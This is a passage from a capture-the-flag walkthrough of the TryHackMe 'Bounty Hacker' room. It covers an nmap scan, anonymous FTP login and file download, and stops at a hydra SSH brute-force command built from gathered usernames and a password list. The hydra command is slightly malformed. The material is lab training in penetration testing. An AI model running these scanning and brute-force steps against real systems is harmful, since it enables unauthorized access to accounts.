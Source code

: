 ### Bounty Hacker CTF Writeup

## Link: https://tryhackme.com/room/cowboyhacker

Our first step is to always begin with enumeration, we can use alot of tools to do this but we are going to use the most popular enumeration tool called 'Nmap' 

`┌──(--㉿kali)-[~]
└─$ nmap 10.10.81.164 -sV -sC
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-25 13:02 EDT
Nmap scan report for 10.10.81.164
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.49.141
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)`

From this Nmap scan we see that there are 3 ports open: port 21, 22 and 80
Importantly, we see that on port 21 there is 'Anonymous FTP login allowed' (This means that we can login as user anonymous and provide no password)


### The web-server:

If he head over to the website running this machine (which you can access by going to http://<machine_ip>) we are greeted by this main page:

![image](https://github.com/traveller404/Bounty-Hacker-CTF-/assets/92340426/757a9125-6535-4cee-af12-d83a835361d5)

Reading through this we are greeted by characters called Spike, Jet, Ed and Faye and we also learn of 2 other people called Edward and Ein.
These could be possible usernames for the ssh service running on port 22.

Inspecting the source code of the webpage reveals nothing ontop of this.

### The FTP service:

Log into the FTP service on the machine with the following command:

`┌──(--㉿kali)-[~]
└─$ ftp <machine_ip>
Connected to 10.10.81.164.
220 (vsFTPd 3.0.3)
Name (10.10.81.164:--): `anonymous <---- Provding the username anonymous allows us to login with no password as we learned from the nmap scan (This is quite common with ftp services)` 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.`
Using `ls` we can see the files on this ftp service and we are told there are 2 .txt files, tasks.txt and locks.txt
Use `mget *` as a means to get all files to your local device then exit the ftp service

### SSH Access

The contents of task.txt contain another person, Lin, but locks.txt is more useful
It is a file containing presumably passwords, and with the list of potential usernames we collected earlier from the website and Lin from task.txt, its time to commence a brute force attack

To do this attack we must make a file containing the usernames, which for convenience sake we will call users.txt and then write our command

`hydra -l users.txt -P locks.txt ssh://<machine_ip -V>`
